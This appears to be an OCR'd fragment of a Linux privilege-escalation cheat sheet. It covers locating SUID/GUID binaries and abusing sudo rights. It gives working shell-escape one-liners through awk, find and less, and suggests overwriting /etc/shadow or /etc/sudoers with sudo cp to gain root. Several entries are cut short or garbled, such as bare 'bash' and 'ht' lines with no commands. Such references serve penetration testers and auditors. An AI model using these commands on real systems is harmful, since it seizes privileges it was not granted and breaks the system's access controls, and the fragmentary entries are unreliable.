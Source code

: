 ```
nano
cp
mv
find
```

**Find suid and guid files**

```
#Find SUID
find / -perm -u=s -type f 2>/dev/null

#Find GUID
find / -perm -g=s -type f 2>/dev/null
```

### Abusing sudo-rights

If you have a limited shell that has access to some programs using `sudo` you might be able to escalate your privileges with. Any program that can write or overwrite can be used. For example, if you have sudo-rights to `cp` you can overwrite `/etc/shadow` or `/etc/sudoers` with your own malicious file.

##### awk

```
awk 'BEGIN {system("/bin/bash")}'
```

`bash`

##### cp

Copy and overwrite /etc/shadow

##### find

```bash
sudo find / -exec bash -i \;

find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;

sudo find /dev/null -exec sh \;
```

`ht`

The text/binary-editor HT.

##### less

From less you can go into vi, and then into a shell.

```
sudo less /etc/shadow
v
:shell
```
